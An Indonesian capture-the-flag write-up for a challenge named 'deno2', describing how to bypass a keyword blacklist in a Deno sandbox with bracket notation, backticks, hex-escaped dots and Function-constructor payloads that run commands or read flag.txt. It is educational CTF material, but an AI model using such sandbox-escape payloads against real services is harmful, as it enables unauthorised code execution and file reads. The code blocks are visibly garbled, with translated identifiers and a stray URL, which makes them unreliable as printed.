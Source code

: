 # Deno2

# DENO2

Alat

- Terminal
- Node
- Sublime text

Untuk menyelesaikan deno2 kita harus mencari tahu cara untuk mem-bypass const BLACK_LIST. Untungnya kita diberikan dua petunjuk yang memberitahu kita bahwa ada cara lain untuk memanggil fungsi/atribut/metode dari objek selain menggunakan titik, yaitu dengan menggunakan metode 

```jsx
object[`function`]
```

Disini kita sudah tahu cara mem-bypass pemanggilan fungsi tapi bagaimana dengan pemanggilan deno?.

Disitulah Deno masuk daftar hitam, dengan sedikit tekad dan pengetahuan yang minim saya bertanya kepada Mr. Google. Setelah berselancar di Google saya menemukan sebuah artikel yang menyatakan bahwa kita dapat memanggil objek dengan "ini" terlebih dahulu, misalnya this.deno.run().

kemudian dengan petunjuk kedua yang diberikan, saya menggunakan teknik fungsi anonim agar lebih mudah (menurut saya). Fungsi anonim bisa dibuat dengan menulis 

```jsx
({})["constructor"]["constructor"](https://www.notion.so/%22code%22)().
```

() pada akhir code untuk memanggil fungsi anonim.

Dalam tantangan ini, kita tidak bisa menggunakan "" dan '', jadi kita menggantinya dengan ` (backtick). Untuk payload pertama saya buat seperti ini :

```jsx
({})[konstruktor][konstruktor](ini[\\De\ + \\no\][\\run\]({cmd: [\\ls\]}) )()
```

code di atask ternyata tidak berhasil, karena saya yakin ini harus berhasil. Saya mencoba kode di deno1 dan berhasil. Hmmm kemudian saya cek file dockernya ternyata deno.run tidak boleh, jadi saya ganti dengan membaca langsung filenya seperti yang saya tulis di deno1 yaitu dengan deno.readfilesync(). kodenya akan seperti ini:

```jsx

({})[constructor][constructor](decoder = new TextDecoder(\\utf-8\);data = this[\\De\+\\no\][\\readFileSync\](\\flag\x2etxt\);return decoder[\\decode\](data);)()
```

catatan:\x2e untuk menggantikan . (dot)

Code di atas dapat berhasil. karena menurut saya jawaban saya terlalu panjang, saya bertanya kepada penulis, yang saya tanyakan seperti ini "apakah ada cara lain untuk mendapatkan flag", dan ternyata ada cara lain yaitu dengan menggunakan

```jsx
[][constructor][constructor](return De+no\\x2ereadTextFileSync(\\flag\x2etxt\))()
```

dan

```jsx
[][constructor][constructor](return fetch(\\file:///ctf/flag\x2etxt\)\\x2ethen((a)=>a\\x2etext()\\x2ethen((b )=>konsol\\x2elog(b))))()
```

terima kasih kepada mas Dimas yang telah membantu saya.

### Referensi yang mungkin bisa membantu

- 

[https://www.youtube.com/watch?v=pzh6--](https://www.youtube.com/watch?v=pzh6--)

- 

[Escaping nodejs vm](http://Gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af)